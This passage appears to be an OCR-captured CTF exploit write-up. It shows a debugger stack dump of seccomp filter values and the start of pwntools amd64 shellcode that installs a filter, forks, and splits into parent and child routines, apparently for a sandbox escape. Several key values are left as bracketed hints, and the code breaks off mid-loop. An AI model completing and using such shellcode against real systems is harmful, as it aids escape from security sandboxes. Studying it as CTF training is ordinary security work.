 ````bash
# 0016| 0x7fffffffe4d0 --> 0xa ('\n')
# 0024| 0x7fffffffe4d8 --> 0x7fffffffe530 --> 0x20 (' ')
# 0032| 0x7fffffffe4e0 --> 0x4
# 0040| 0x7fffffffe4e8 --> 0x7fffffffe510 --> 0x400000020
# 0048| 0x7fffffffe4f0 --> 0x0
# 0056| 0x7fffffffe4f8 --> 0x0
# 0064| 0x7fffffffe500 --> 0x2
# 0072| 0x7fffffffe508 --> 0x0
# 0080| 0x7fffffffe510 --> 0x400000020
# 0088| 0x7fffffffe518 --> 0xc000003e00010015
# 0096| 0x7fffffffe520 --> 0x7fc0000000000006
# 0104| 0x7fffffffe528 --> 0x7fff000000000006
# 0112| 0x7fffffffe530 --> 0x20 (' ')
# 0120| 0x7fffffffe538 --> 0x13d01000015
# 0128| 0x7fffffffe540 --> 0x7fff000000000006
# 0136| 0x7fffffffe548 --> 0x3901000015
# 0144| 0x7fffffffe550 --> 0x7fff000000000006
# 0152| 0x7fffffffe558 --> 0x1001000015
# 0160| 0x7fffffffe560 --> 0x7fff000000000006
# 0168| 0x7fffffffe568 --> 0x3c01000015
# 0176| 0x7fffffffe570 --> 0x7fff000000000006
# 0184| 0x7fffffffe578 --> 0x7ff0000000000006
# 0192| 0x7fffffffe580 --> 0x0
# END


context.arch = 'amd64'
shellcode = f'''
    mov esp,0xcafe800
    mov rsi,0x8
    mov rbx,0x7fff000000000006
    push rbx
    mov rbx, {attacking rule2, hint 6}
    push rbx
    mov rbx, {attacking rule3, hint 6}
    push rbx
    mov rbx, 0x400000020
    push rbx
    mov rbx,rsp
    push rbx
    xor rbx,rbx
    mov bl,0x4
    push rbx
    mov rdx,rsp
    mov rax, {syscall num}
    mov rdi,1
    syscall

    mov r8,rax
    mov rax, {syscall num}
    syscall

    cmp rax, {compare rax to a number to judge if it's the child process}

    je child_process
parent_process:
    xor rax,rax
clean_req_and_resp:
    mov ecx, 0xd
    mov rdx, 0xcafec00
loop:
    mov qword ptr [rdx],rax
    dec rcx
````